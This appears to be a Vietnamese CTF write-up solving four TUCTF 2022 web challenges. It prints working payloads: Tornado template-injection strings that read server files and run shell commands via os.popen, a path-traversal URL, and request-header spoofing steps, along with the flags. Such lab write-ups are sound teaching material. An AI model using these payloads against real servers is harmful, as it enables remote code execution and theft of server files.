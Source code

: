 #TUCTF 2022 - Web

##1. Tornado

![Screenshot 2022-12-05 103327](/assets/Screenshot%202022-12-05%20103327.jpg)

#### Challenge description
- Đầu tiên vào trang web có input.

![Screenshot 2022-12-05 103741](https://i.imgur.com/E9oLKD9.jpg)

- Số bị ẩn sẽ là cookie của joe.
![Screenshot 2022-12-05 103851](https://i.imgur.com/dLCqx90.jpg)

- Vì để bài là tornado nên có vẻ như là trang web bị dính ssti thử với payload.
```js
{{7*7}}

=> output: Hello 49! My friend Joe entrusted me with his website template - hope I dont mess anything up, Tornado sure is confusing
```
- Payload 1:
```js
input = {{open('/app/web2.py')}}
```
![Screenshot 2022-12-05 104244](https://i.imgur.com/24n8bko.jpg)
- Payload 2:
```js
{%import os%}{{os.popen("ls").read()}}
=> Ta được đoạn base64 encode, decode thành "go to /parttwooftheproblem" thì thấy cookie của bod và thay vào trang của bod là thành công.
```

```js
Flag: TUCTF{t0rnad0_1snt_v3ry_s3cur3}
```

##2. Hyper Maze
![Screenshot 2022-12-05 104758](https://i.imgur.com/OKlcMkZ.jpg)
- Mở ra là một mê cung khủng khiếp nhưng khi open source thì có một link dẫn tới trang web khác và có vẻ điều này lặp vô hạn...
![Screenshot 2022-12-05 105007](https://i.imgur.com/QCS6dAa.jpg)
- Ý tưởng: <Hơi cùi> tìm kiếm ".html" trong response và get request lại tới trang đó cho tới khi ra flag.
- Payload:
```js
    import requests
hr = 'page_aesthetician100.html'

def check_flag(hr):
    x = requests.get('https://hyper-maze.tuctf.com/pages/%27+hr)
    re = x.text
    re1 = x.text
    if re.find(".html"):
        if re1.find("TUC") != -1:
            flag = re.index("TUC")
            print(re[flag:flag+40])

        result = re.index(".html")
        for i in range(result-25,result+4):
            # print(re[i])
            if ord(re[i]) == 61:
                flag = re[i+2:result+5]

                print(re[i+2:result+5])
                check_flag(flag)
            # print(re[result-20:result+5])

check_flag(hr)
```
![Screenshot 2022-12-05 105328](https://i.imgur.com/MOhr2Yz.jpg)

```js
Flag: TUCTF{y0u_50lv3d_my_hyp3r73x7_m4z3_38157}
```

## 3. Vertical Traversal
![Screenshot 2022-12-05 105917](https://i.imgur.com/VqvPoFy.jpg)
- Trang web bị lỗ hổng Path Traversal.
- Payload
```js
https://vertical-traversal.tuctf.com/get/...%2fflag.txt

Flag: TUCTF{d0nt_us3_r3g3x_f0r_sanitization_416589}
```

## 4. Swapping Heads
![Screenshot 2022-12-05 110158](https://i.imgur.com/S3vtt4W.jpg)
- Đầu tiên vô trang web thì trả về rằng chỉ xem được vào thời gian trưa tới đêm.
![Screenshot 2022-12-05 110711](https://i.imgur.com/NFgTYTn.jpg)
- Do đó thêm header date vào đổi sang tối.
![Screenshot 2022-12-05 110845](https://i.imgur.com/K03x3UP.jpg)
- Trả về là một trình duyệt được kết thúc vào tháng 3 năm 2009 => Trình duyệt internal explorer

![Screenshot 2022-12-05 111049](https://i.imgur.com/WGeI7bH.jpg)
- Trả về hãy đưa email của bạn để gửi. 
![Screenshot 2022-12-05 111313](https://i.imgur.com/vLcueG4.jpg)
```js
Flag: TUCTF{s0_m@ny_h11p_h3@d3r5}
```

